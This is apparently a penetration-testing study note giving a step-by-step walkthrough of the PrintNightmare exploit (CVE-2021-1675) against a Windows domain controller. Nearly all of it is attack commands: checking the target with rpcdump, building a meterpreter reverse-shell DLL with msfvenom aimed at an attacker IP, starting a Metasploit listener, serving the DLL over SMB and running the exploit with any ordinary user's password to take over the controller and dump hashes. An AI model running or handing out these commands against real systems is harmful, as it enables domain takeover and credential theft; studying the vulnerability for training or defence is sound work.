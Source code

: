 ```yaml
---
tags:
  - PEH
---
```

## Definition
PrintNightmare takes advantage of the Printer Spooler, which is related to printer and runs as system administrator.
## Executing PrintNightmare
1. Check if the DC vulnerable to PrintNightmare
```bash
rpcdump.py @<dc-ip> | egrep 'MS-RPRN|MS-PAR'

# If the output is as the following, then it's vulnerable
# Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol 
# Protocol: [MS-RPRN]: Print System Remote Protocol 
```
2. Create the payload
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<attacker-ip> LPORT=<any> -f dll > shell.dll
```
3. Whenever you `msfvenom` then you should `msfconsole`
```bash
# Launch MS
msfconsole

# Use multi/handler
msf > use multi/handler

# Set the payload to (windows/x64/meterpreter/reverse_tcp), LHOST, LPORT
set payload <payload-above>
set <above> <value>
```
4. Now we want to share the dll file that we created file, we can do that through smbserver.py
```bash
smbserver.py share `pwd` -smb2support
```
5. Now that we have done all of the previous steps, we can utilize the CVE and user ANY NORMAL USER PASSWORD to dump the hashes of the DC!
```bash
python3 CVE-2021-1675 <domain-name>/<user>:<password>@<dc-ip> "\\<attacker's-ip>\share\shell.dll"
```